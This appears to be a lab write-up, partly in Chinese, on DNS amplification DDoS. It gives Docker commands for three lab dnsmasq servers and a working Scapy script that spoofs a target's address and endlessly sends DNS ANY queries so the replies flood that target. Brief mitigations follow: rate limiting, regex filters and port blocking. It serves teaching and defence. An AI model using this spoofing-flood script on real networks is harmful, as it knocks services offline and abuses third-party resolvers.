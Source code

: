 Reference: 

DNS1
```
docker run --rm -d --net myLab --name DNS1 --domainname DNS1.com --cap-add=NET_ADMIN andyshinn/dnsmasq
```

DNS2
```
docker run --rm -d --net myLab --name DNS2 --domainname DNS2.com --cap-add=NET_ADMIN andyshinn/dnsmasq
```

DNS3
```
docker run --rm -d --net myLab --name DNS3 --domainname DNS3.com --cap-add=NET_ADMIN andyshinn/dnsmasq
```


```
#!/usr/bin/env python
  
from scapy.all import *
# Let ip and domainname to pairs
with open("SERVERS.txt", "r") as servers_file, open("DOMAINS.txt", "r") as domains_file:
        servers = servers_file.readlines()
        domains = domains_file.readlines()
        dnsServer = list(zip(servers, domains))

while(1):
        for dns_num in range(len(dnsServer)):

                target     = "172.18.0.2" # Target host
                nameserver = str(dnsServer[dns_num][0]).strip() # DNS server
                domain     = str(dnsServer[dns_num][1]).strip() # Some domain name like "google.com" etc. 

                ip  = IP(src=target, dst=nameserver)
                udp = UDP(dport=53)
                dns = DNS(rd=1, qdcount=1, qd=DNSQR(qname=domain, qtype=255))

                request = (ip/udp/dns)
    
                send(request)
```


## Prevent the DDOS Attack

### Rate limiting
這是一個常用的方法，此方法簡單來說就是限制一個DNS的最大傳送流量，當傳輸的流量超過這個域值，之後它傳輸的封包我們都會把它丟棄。

### Regular express filters 
Regular express filter 可用於抵擋一部份DDOS 攻擊，其原理為DDOS attackers 使用的Http header或payload有相似之處，此時就可以用正則表達過濾來將相關的request過濾掉。(可以使用web server 或firewall來屏蔽掉http請求)

### Port Blocking

將沒有使用到的Port關閉，防止非法人士掃描伺服器開放的port運用漏洞來攻擊。



